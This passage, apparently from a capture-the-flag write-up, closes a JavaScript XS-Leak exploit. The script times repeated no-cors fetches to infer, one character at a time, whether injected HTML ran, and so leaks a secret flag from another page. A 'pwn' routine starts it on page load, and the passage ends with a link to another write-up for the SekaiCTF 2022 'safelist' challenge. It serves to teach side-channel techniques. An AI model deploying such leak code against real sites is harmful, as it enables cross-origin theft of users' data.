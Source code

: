 ```html
            // start meassuring time to perform 5 requests
            let start = performance.now();
            await Promise.all([
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" })
            ]);
            let delta = performance.now() - start;
            document.title = delta;
            controller.abort();

            log("test_" + c + "_" + i, delta);
            
            // Save time needed
            deltas.push(delta);
        }
        return deltas;
    };
    
    // Check each char
    const pwn = async () => {
        // Try to leak each character
        for(let i = 0; i < alphabet.length; i++) {
            //Check the indicated char
            let deltas = await leak(alphabet[i]);
            
            // Calculate mean time from requests to example.com
            let avg = deltas.reduce((a,v) => a+v, 0) / deltas.length;
            
            // If greater than 250, the HTML code was injected (flag in index 0)
            if (avg > 250) {
                log("tests_pos_" + alphabet[i], deltas)
            }
            // Flag in the page
            else {
                log("tests_neg_" + alphabet[i], deltas)
            }
        }
    };

    window.onload = async () => {
        pwn();
    };
</script>
```

### Exploit 2

Same tactic but different code from [https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/](https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/)

